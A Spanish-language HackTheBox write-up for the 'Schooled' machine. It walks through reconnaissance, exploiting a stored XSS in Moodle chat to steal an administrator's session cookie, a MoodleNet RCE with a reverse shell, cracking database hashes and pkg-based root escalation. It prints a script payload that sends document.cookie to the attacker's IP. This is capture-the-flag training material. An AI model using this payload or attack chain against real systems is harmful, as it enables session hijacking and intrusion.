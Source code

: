```yaml
---
title: "Schooled - HackTheBox"
layout: single
excerpt: "Esta es una máquina de dificultad media, para su intrusión me aproveché de un 'XSS' para robarle la cookie de sesión al administrador y hacer uso de un 'exploit' para ganar ejecución de código arbitrario, para la escalada de privilegios tenía la capacidad de ejecutar el binario `pkg` con privilegios de 'root', para ello me dirigí a gtfobins y encontré una carga util que permitía escalar privilegio."
header:
show_date: true
classes: wide
header:
  teaser: "https://user-images.githubusercontent.com/69093629/133931267-f416086e-4b4e-4e59-8524-f4aec4d584a2.jpg"
  teaser_home_page: true
  icon: "https://user-images.githubusercontent.com/69093629/125662338-fd8b3b19-3a48-4fb0-b07c-86c047265082.png"
categories:
  - HackTheBox
tags:
  - XSS
  - Cookie Hijacking
  - pkg
  - mysql
---
```


<p align="center">
<img src="https://user-images.githubusercontent.com/69093629/133931267-f416086e-4b4e-4e59-8524-f4aec4d584a2.jpg">
</p>

Empece con un escaneo de `Nmap` para detectar puertos abiertos en la maquina.

```bash
┌──(root💀kali)-[/home/kali/HTB/Schooled/machine]
└─# nmap -sS --min-rate=5000 -vvv -n -Pn --open 10.10.10.234 -oN targeted
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-18 06:18 EDT
Initiating SYN Stealth Scan at 06:18
Scanning 10.10.10.234 [1000 ports]
Discovered open port 22/tcp on 10.10.10.234
Discovered open port 80/tcp on 10.10.10.234
Completed SYN Stealth Scan at 06:18, 0.52s elapsed (1000 total ports)
Nmap scan report for 10.10.10.234
Host is up, received user-set (0.047s latency).
Scanned at 2021-09-18 06:18:46 EDT for 0s
Not shown: 798 filtered ports, 200 closed ports
Reason: 798 no-responses and 200 resets
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE REASON
22/tcp open  ssh 	syn-ack ttl 63
80/tcp open  http	syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.61 seconds
       	Raw packets sent: 1798 (79.112KB) | Rcvd: 202 (8.088KB)
```

Hice otro escaneo para detectar la version de cada puerto abierto.

```bash
┌──(root💀kali)-[/home/kali/HTB/Schooled/machine]
└─# nmap -sC -sV -p22,80 10.10.10.234 -oN webScan                    	 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-18 06:20 EDT
Nmap scan report for 10.10.10.234
Host is up (0.035s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh 	OpenSSH 7.9 (FreeBSD 20200214; protocol 2.0)
| ssh-hostkey:
|   2048 1d:69:83:78:fc:91:f8:19:c8:75:a7:1e:76:45:05:dc (RSA)
|   256 e9:b2:d2:23:9d:cf:0e:63:e0:6d:b9:b1:a6:86:93:38 (ECDSA)
|_  256 7f:51:88:f7:3c:dd:77:5e:ba:25:4d:4c:09:25:ea:1f (ED25519)
80/tcp open  http	Apache httpd 2.4.46 ((FreeBSD) PHP/7.4.15)
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.46 (FreeBSD) PHP/7.4.15
|_http-title: Schooled - A new kind of educational institute
Service Info: OS: FreeBSD; CPE: cpe:/o:freebsd:freebsd

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.25 seconds
```

Tenia dos puertos abiertos, el primero era de servicio `ssh` y el otro era un servidor web, poco podia hacer en el primero por lo que recurri a ver que habia en el servidor web.

![https://imgur.com/LXCKb0F.png](https://imgur.com/LXCKb0F.png)

Al parecer era una pagina de colegio, segui investigandola un poco mas y encontre lo siguiente en el "footer" de la web.

![https://imgur.com/Vnl3TCA.png](https://imgur.com/Vnl3TCA.png)

Esto me llamo la atencion, pense que se podria estar aplicando `virtual hosting`, es decir alojar distintos dominios en una sola `IP`, para ello lo introduje en el `/etc/hosts`.

![https://imgur.com/9V1ffkh.png](https://imgur.com/9V1ffkh.png)

Volvi a acceder a la web pero no habia nada interesante.

![https://imgur.com/LXCKb0F.png](https://imgur.com/LXCKb0F.png)

Hice uso de `whatweb` para ver si corria algun `CMS`.

```bash
┌──(root💀kali)-[/home/kali/HTB/Schooled/machine]
└─# whatweb http://schooled.htb/
http://schooled.htb/ [200 OK] Apache[2.4.46], Bootstrap, Country[RESERVED][ZZ], Email[#,admissions@schooled.htb], HTML5, HTTPServer[FreeBSD][Apache/2.4.46 (FreeBSD) PHP/7.4.15], IP[10.10.10.234], PHP[7.4.15], Script, Title[Schooled - A new kind of educational institute], X-UA-Compatible[IE=edge]
```

Al parecer era la misma, para ello hice `fuzzing` de subdominios y encontre uno que me llamo la atencion.

```bash
┌──(root💀kali)-[/home/kali/HTB/Schooled/machine]
└─# wfuzz -c --hc=404 -u http://schooled.htb/ -H "Host: FUZZ.schooled.htb" -w /usr/share/amass/wordlists/subdomains.lst -t 20 --hw=1555
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                     	*
********************************************************

Target: http://schooled.htb/
Total requests: 8215

=====================================================================
ID       	Response   Lines	Word   	Chars   	Payload                                                                                 	 
=====================================================================

000002430:   400    	10 L 	45 W   	347 Ch  	"ferrari.fortwayne.com."                                                                	 
000004127:   200    	1 L  	5 W    	84 Ch   	"moodle"
```

`Moodle` era un subdominio que al parecer estaba aplicando, lo introduje en el `/etc/hosts`.

![https://imgur.com/OShD4Q5.png](https://imgur.com/OShD4Q5.png)

Y la pagina me reporta algo diferente, era un `moodle`.

![https://imgur.com/tCieGJx.png](https://imgur.com/tCieGJx.png)

Tenia un boton que ponia `Log In`, dandole click me redirigio a una pagina de inicio de sesion.

![https://imgur.com/dvEEVpA.png](https://imgur.com/dvEEVpA.png)

No tenia credenciales por lo que poco podia hacer, pero me podia registrar.

![https://imgur.com/W3FR84S.png](https://imgur.com/W3FR84S.png)

Una vez registrado, accedí.

![https://imgur.com/OnSim3m.png](https://imgur.com/OnSim3m.png)

Viendo todas las asignaturas que habian, `matematicas` era la unica que tenia un usuario llamado `Manuel Philips`.

![https://imgur.com/3VUKpya.png](https://imgur.com/3VUKpya.png)

Encontré un comentario de este usuario.

![Sin título (4) (1)](https://user-images.githubusercontent.com/69093629/133931890-edc2a9ae-3ac4-4e6e-a0a9-0caf666843f0.png)

Lo que mas me llamo la atencion es que pone que verificara a todos los usuarios, mirando un poco mas la pagina encontre este `buffer` que al parecer me permitia hablar con `Manuel Philips`, Intente ver si era vulnearable a `XSS`.

![Sin título (1) (2) (1)](https://user-images.githubusercontent.com/69093629/133931959-b6273540-4006-4950-8f7f-042e62dc398f.png)

Y me reporto la alerta por pantalla.

![https://imgur.com/OpYC8nU.png](https://imgur.com/OpYC8nU.png)

Ahora que sabia que era vulnerable a `XSS` me acorde del mensaje que decia que se verificarian todos los usuarios, pense en efectuar un `Cookie Hijacking`, es decir robar la `cookie` de sesion del usuario privilgiado, para ello use la siguiente sintaxis en `js`.

```js
<script>document.location="http://10.10.16.3/value_cookie="+document.cookie</script>
```

Realmente se puede hacer de muchas maneras.

![https://imgur.com/upgz0Co.png](https://imgur.com/upgz0Co.png)

Abri un servidor por `python` y recibi mi `cookie` de sesion por `GET` mas otras que no eran mias. 

![https://imgur.com/gYNFMRR.png](https://imgur.com/gYNFMRR.png)

Me autentique con la `cookie` que recibi y al parecer era del usuario `Manuel Philips`, volviendo al mensaje de antes, vi que ponia algo de `MoodleNet`, me dio por investigar y encontré un exploit de `Lanz` que te garantiza `RCE`.

![Captura de pantalla (2)](https://user-images.githubusercontent.com/69093629/133928030-748d5a80-0d9f-4ed9-be5d-0d78952340d3.png)

Lo ejecute brindandole la `cookie` de sesion del usuario `Manuel Philips` y ejecutando una `reverse shell` por `mkfifo` y gane acceso a la maquina.

![https://imgur.com/JpUx8Ox.png](https://imgur.com/JpUx8Ox.png)

Investigando la maquina encontré un archivo llamado `config.php` que tenia credenciales de `MySQL`.

![https://imgur.com/r590xtu.png](https://imgur.com/r590xtu.png)

Antes de usar `MySQL` hice uso de la utilidad `MySQLshow` para enumerar un poco las bases de datos que habian y sus tablas.

![Qm7IKtT](https://user-images.githubusercontent.com/69093629/133929540-2504f516-0097-41ca-9ca8-e896e68c1dd1.png)

Tras una enumeracion de la base de datos `moodle` encontré una tabla en especial llamada `mdl_user`, enumerandola encontré distintas columnas, pero me llamaron la atencion en especial "username", "password" y "email", tras enumerarlas me reporto distintos `hashes` de usuarios.

![https://imgur.com/CBBvwrR.png](https://imgur.com/CBBvwrR.png)

Decidi crackear los `hashes` con `john` en local y consegui crackear la credencial `!QAZ2wsx` que era del usuario `jamie`, como la maquina tenia `SSH` abierto probe a autenticarme con estas credenciales y accedi, ya pude visualizar la "flag" del usuario.

![NPUMyaN](https://user-images.githubusercontent.com/69093629/133930143-76bae971-7103-44df-b564-bc03fb6052b4.jpg)

<hr>
<h1 align="center"><b>ESCALADA DE PRIVILEGIOS</b></h1>

Haciendo `sudo -l` vi que podia ejecutar `pkg` como cualquier usuario.

![https://imgur.com/5rV3sG0.png](https://imgur.com/5rV3sG0.png)

Me dirigi a [gtfobins](https://gtfobins.github.io) y encontré una carga util que me permitia escalar privilegios.

![https://imgur.com/EjF0tv9.png](https://imgur.com/EjF0tv9.png)

En la maquina victima no tenia `fpm` instalado, para ello lo hice en mi maquina y lo transferi a la maquina victima y lo ejecute, ya pude visualizar la "flag" de `root`.

![t7fDsbP](https://user-images.githubusercontent.com/69093629/133930359-c73352b9-00dd-4bf5-88dc-d9078cf3439a.jpg)




































